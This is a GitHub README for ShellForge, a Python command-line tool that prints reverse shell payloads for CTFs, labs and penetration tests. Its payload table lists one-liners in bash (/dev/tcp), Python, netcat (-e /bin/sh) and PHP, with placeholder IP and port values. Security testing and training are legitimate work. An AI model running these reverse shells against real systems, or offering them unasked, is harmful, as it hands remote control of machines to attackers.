

# 🛠️ ShellForge — Payload Generator
Author: @Certifa
🐚 Tool: Reverse Shell Payload Generator


---



## 📌 Description

**ShellForge** is a clean, simple Python CLI tool that generates reverse shell payloads for CTFs, labs, or pentesting environments.

✨ Features:

- Colorful Rich interface
- ASCII banner & stylized UX
- Auto-injected IP & PORT into payloads
- --tun0 flag: Automatically detect your VPN IP address
- Works fully offline

---

## 🚀 Usage

```bash
python3 shell.py <IP|--tun0> <PORT>
```
---

### 🔍 Example
Manual IP:
```bash
python3 shell.py 10.10.14.5 4444
```

Auto-detect tun0 VPN IP:
```bash
python3 shell.py --tun0 4444
```

You will see a menu like:

```
1. Bash TCP
2. Python TCP
3. Netcat (traditional)
4. PHP
5. Exit
```

Select an option and the ready-to-use payload will be printed.

---

## 🎯 Payload Types

| Option | Language | Payload                                           |
| ------ | -------- | ------------------------------------------------- |
| 1      | Bash     | `/bin/bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'` |
| 2      | Python   | `python3 -c 'import os,socket,...'`               |
| 3      | Netcat   | `nc IP PORT -e /bin/sh`                           |
| 4      | PHP      | `php -r '$sock=fsockopen("IP",PORT);exec(...)'`   |

IP and PORT are automatically injected from the CLI.

---

## 📦 Requirements

- `Python 3.7+`

### 🔧 Install dependencies

```bash
pip install -r requirements.txt
```

**Dependencies:**
- rich — Rich terminal output
- pyfiglet — ASCII art banner
- netifaces — Network interface detection (for --tun0)

---

## 🖼️ Preview

```shell
   /\
  |==|   Payload Generator
  |  |   ------------------
  |  |   Author: @Certifa
 /____\
[======]
|  💥  |   [~] Ready to forge shells
'------'
```

---

## 🔐 Legal & Ethics

**Use ShellForge responsibly.**

This tool is for educational and authorized use only.

> **Disclaimer:** The author is not responsible for misuse or damage. Always obtain explicit permission before testing.

---

## 📄 License

This project is licensed under the [MIT License](docs/mit.txt)

---

## 🛠️ Planned Features

- [ ] Export payload to text file
- [ ] Add reverse PowerShell payload
- [ ] Listener helper (e.g. start nc listener)

## 📚 Credits

- [Rich](https://github.com/Textualize/rich)
- [PyFiglet](https://github.com/pwaller/pyfiglet)
- [Netifaces](https://github.com/al45tair/netifaces)

---

## 🔗 Links

- GitHub: [https://github.com/Certifa/shellforge](https://github.com/Certifa/shellforge)


## ⚙️ Changelog
v1.1

- Added --tun0 flag to auto-detect VPN interface IP

- Fixed Bash TCP payload with proper wrapper: /bin/bash -c '...'

- Updated dependencies: added netifaces

v1.0

- Initial release
